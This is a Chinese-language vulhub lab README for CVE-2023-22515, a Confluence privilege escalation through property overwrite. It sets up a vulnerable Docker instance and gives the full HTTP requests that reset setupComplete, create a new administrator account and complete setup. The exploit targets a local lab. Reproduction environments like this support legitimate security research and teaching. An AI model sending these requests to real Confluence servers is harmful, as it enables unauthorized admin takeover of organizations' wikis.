

# Confluence 属性覆盖导致权限绕过漏洞 (CVE-2023-22515)

Atlassian Confluence是企业广泛使用的wiki系统。

2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行Confluence安装流程并增加管理员账户。

该漏洞不影响8.0.0以前的版本。

参考链接：

- <https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html>
- <https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis>

## 漏洞环境

执行如下命令启动一个Confluence Server 8.5.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。


## 漏洞复现

首先，最主要的请求就是覆盖目标Confluence服务器中的`bootstrapStatusProvider.applicationConfig.setupComplete`属性：

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

然后，你就可以使用如下请求创建一个新的管理员账户`vulhub`：

```
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

发送如下请求完成安装步骤：

```
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check


```

最后，直接使用新的`vulhub`账户（密码同样是`vulhub`）来登录Confluence，可见新的管理员已成功增加：


